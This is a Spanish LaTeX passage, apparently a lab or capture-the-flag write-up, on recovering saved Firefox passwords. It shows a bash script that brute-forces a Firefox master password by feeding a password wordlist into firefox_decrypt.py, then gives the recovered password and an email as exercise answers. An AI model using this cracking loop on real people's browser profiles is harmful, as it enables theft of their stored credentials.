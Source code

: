 \documentclass{article}
\begin{document}
            Después cambiamos de directorio con \texttt{cd ~/tools/firefox\_decrypt/} y creamos un nuevo archivo con el comando \texttt{vi brute.sh}. En este archivo pondremos las siguientes directivas:

            \begin{lstlisting}[language=bash, frame=lines, label=code:bash-script, caption={Script de Bash para vulnerar las contraseñas}]
                #! /bin/bash
                input=$1
                while IFS= read -r var
                do
                echo "Trying :$var"
                echo "$var" | python firefox_decrypt.py
                done < "$input"
            \end{lstlisting}

            Este proceso se ilustra en la imagen \ref{fig:bash-vim}.

            Guardamos este archivo y hacemos que sea ejecutable con el comando \texttt{chmod +x brute.sh}. Finalmente lo corremos con el comando \texttt{./brute.sh 1000000-password-seclists.txt}. Después de correrlo el programa generará salidas como las de la figura \ref{fig:brute-attempts}, cuando el programa genere una salida como la de la figura \ref{fig:brute-found}, el usuario debe de presionar \texttt{ctrl+C} para terminar la ejecución del programa.

            De la salida generada, vemos que la contraseña maestra de Firefox es \texttt{qwer1234}.

        \subsection{La primera contraseña en la lista, ¿De qué sitio es?}

            Analizando de nuevo la imagen \ref{fig:brute-found} vemos que el sitio asociado a esta contraseña es Firefox.

        \subsection{¿Qué correo electrónico es usado para el sitio Github?}

            De la figura \ref{fig:brute-found}, vemos que el correo electrónico es \texttt{strange\_people86@kmail.xyz}.

        \subsection{¿Cuál es la contraseña de Facebook del usuario vulnerado?}
\end{document}

